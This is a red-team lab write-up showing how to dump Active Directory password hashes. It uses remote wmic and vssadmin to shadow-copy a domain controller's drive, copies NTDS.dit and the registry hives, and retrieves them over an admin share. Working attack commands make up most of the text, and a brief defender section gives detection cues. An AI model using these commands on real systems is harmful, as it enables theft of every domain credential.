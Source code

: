 ```yaml
---
layout: post
title: "2024-06-18-dumping domain controller hashes via wmic and shadow copy using vssadmin"
date: 2024-06-18
categories: credential-access-and-credential-dumping
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /dumping-domain-controller-hashes-via-wmic-and-shadow-copy-using-vssadmin/
---
```


# Dumping Domain Controller Hashes via wmic and Vssadmin Shadow Copy

This quick labs hows how to dump all user hashes from the DC by creating a shadow copy of the C drive using vssadmin - remotely.

This lab assumes the attacker has already gained administratrative access to the domain controller.

## Execution

Create a shadow copy of the C drive of the Domain Controller:

{% code title="attacker@victim" %}
```csharp
wmic /node:dc01 /user:administrator@offense /password:123456 process call create "cmd /c vssadmin create shadow /for=C: 2>&1"
```
{% endcode %}

![](<../../.gitbook/assets/Annotation 2019-05-23 213609.png>)

Copy the NTDS.dit, SYSTEM and SECURITY hives to C:\temp on the DC01:

{% code title="attacker@victim" %}
```csharp
wmic /node:dc01 /user:administrator@offense /password:123456 process call create "cmd /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit c:\temp\ & copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM c:\temp\ & copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY c:\temp\"
```
{% endcode %}

Below shows the above command executed on the attacking machine (right) and the files being dumped to c:\temp on the DC01 on the left:

![](<../../.gitbook/assets/dc-dump (1).gif>)

Mount the DC01\c$\temp locally in order to retrieve the dumped files:

{% code title="attacker@victim" %}
```csharp
net use j: \\dc01\c$\temp /user:administrator 123456; dir j:\
```
{% endcode %}

![](<../../.gitbook/assets/Annotation 2019-05-23 222654.png>)

Now, of you go extracting hashes with secretsdump as shown here:

{% content-ref url="ntds.dit-enumeration.md" %}
[ntds.dit-enumeration.md](ntds.dit-enumeration.md)
{% endcontent-ref %}

## Observations

A quick note for defenders on the proces ancestry:

![](<../../.gitbook/assets/Annotation 2019-05-23 213352.png>)

and of course commandlines:

![](<../../.gitbook/assets/Annotation 2019-05-23 223432.png>)

as well as service states:

![](<../../.gitbook/assets/Annotation 2019-05-23 223157.png>)

...and of course the lateral movement piece:

![](<../../.gitbook/assets/Annotation 2019-05-23 230027.png>)

## References

[https://twitter.com/netmux/status/1123936748000690178?s=12](https://twitter.com/netmux/status/1123936748000690178?s=12)
@spotheplanet
